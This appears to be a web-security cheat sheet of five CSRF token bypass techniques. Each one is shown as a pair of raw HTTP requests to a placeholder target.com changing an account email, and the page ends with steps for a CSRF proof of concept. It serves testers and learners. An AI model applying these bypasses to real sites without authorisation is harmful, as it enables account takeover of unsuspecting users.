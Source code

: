 If the session cookie’s SameSite value is set to none and the `referer` header is not being used for CSRF protection, then there is probably a CSRF token in place. The following are common CSRF token bypasses.

<br/>

**1) Change Single Character to Check if CSRF Token is Being Validated or Not**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBB
```

<br/>
<br/>

**2) Change Request Method from POST to GET**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
GET /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>
<br/>

**3) Remove value in CSRF token**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=
```

<br/>
<br/>

**4) Remove CSRF Token Completely**
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com
```

<br/>
<br/>

**5) Send a Valid CSRF Token from Another User**
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.
```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=EFd9BZX3mI6LgxnzJgaa42YMHORbcVBA
```

<br/>

```
POST /my-account/change-email HTTP/1.1
Host: target.com
Cookie: session=S97qjrvFPqdndlqAidWFbHCldtb2RFP8;

email=test%40test.com&csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY
```

<br/>

*Steps*
```
1. Capture a CSRF attack POST request
2. Send request to repeater
3. Drop the request (dropping the request means the CSRF token will not be used, meaning the token is still in the CSRF token pool)
4. Create a CSRF PoC
5. Use the CSRF token in the repeater tab in the CSRF PoC
```
